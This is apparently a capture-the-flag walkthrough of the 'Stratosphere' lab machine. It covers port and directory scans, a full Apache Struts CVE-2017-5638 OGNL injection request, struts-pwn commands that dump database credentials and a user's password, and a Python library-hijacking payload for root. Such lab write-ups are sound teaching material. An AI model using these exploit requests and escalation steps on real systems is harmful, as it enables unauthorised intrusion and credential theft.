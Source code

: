 ###  keyword

Struts-pwm, tomcat, mysql

### information

Nmap 7.70 scan initiated Mon Mar 11 11:14:03 2019 as: nmap -sC -sV -oA nmap  64

Host is up (0.47s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
| ssh-hostkey:
|   2048 5b:16:37:d4:3c:18:04:15:c4:02:01:0d:db:07:ac:2d (RSA)
|   256 e3:77:7b:2c:23:b0:8d:df:38:35:6c:40:ab:f6:81:50 (ECDSA)
|_  256 d7:6b:66:9c:19:fc:aa:66:6c:18:7a:cc:b5:87:0e:40 (ED25519)
80/tcp   open  http
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 1114
|     Date: Mon, 11 Mar 2019 03:13:44 GMT
|     Connection: close

###   enum the website

gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u  host  -x html,txt,jsp

[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : html,txt,js

/index.html (Status: 200)
2019/03/11 11:35:22 [!] Get http://10.10.10.64/1125.txt: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/manager (Status: 302)
/GettingStarted.html (Status: 200)
/Monitoring (Status: 302)

###  look in the site 

![web](file:///home/parrot/image/startosphere.png)



is running tomcat. Heading to /Monitoring/ redirects me to /Monitoring/example/Welcome.action` which has a register and sign in functionality both of which were inactive. The extension `.action` is used sometimes instead of `.do` for apache struts action. Which reminded me of [CVE 2017-5638](https://www.cvedetails.com/cve/cve-2017-5638) which allows RCE through OGNL

### exploit

as you know that, here is the exploit about [struts-pwn](https://github.com/mazen160/struts-pwn) the An exploit for Apache Struts CVE-2017-5638

see the below request :

GET /Monitoring/example/Welcome.action HTTP/1.1
Host: 10.10.10.64
User-Agent: struts-pwn (https://github.com/mazen160/struts-pwn)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='which nc').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}

###  tomcat config 

 python3 struts-pwn.py  -u http://10.10.10.64/Monitoring/example/Welcome.action --cmd="ls -la"

drwxr-xr-x  5 root    root    4096 Mar 10 18:42 .
drwxr-xr-x 42 root    root    4096 Oct  3  2017 ..
lrwxrwxrwx  1 root    root      12 Sep  3  2017 conf -> /etc/tomcat8
-rw-r--r--  1 root    root      68 Oct  2  2017 db_connect
drwxr-xr-x  2 tomcat8 tomcat8 4096 Sep  3  2017 lib
lrwxrwxrwx  1 root    root      17 Sep  3  2017 logs -> ../../log/tomcat8
drwxr-xr-x  2 root    root    4096 Mar 10 18:42 policy
drwxrwxr-x  4 tomcat8 tomcat8 4096 Feb 10  2018 webapps
lrwxrwxrwx  1 root    root      19 Sep  3  2017 work -> ../../cache/tomcat8

[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin

###  EXECute to db 

 python3 struts-pwn.py  -u http://10.10.10.64/Monitoring/example/Welcome.action --cmd 'mysql --us
er=admin --password=admin  -e "select * from users.accounts"'

fullName        password        username
Richard F. Smith        9tc*rhKuG5TyXvUJOrE^5CK7k       richard



###   knock into the system

richard@stratosphere:~$ sudo -l
Matching Defaults entries for richard on stratosphere:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User richard may run the following commands on stratosphere:
    (ALL) NOPASSWD: /usr/bin/python* /home/richard/test.py

came across this excellent post by rastating: https://rastating.github.io/privilege-escalation-via-python-library-hijacking/.

### payload 

 echo 'import os; os.system("/bin/bash")' > hashlib.py

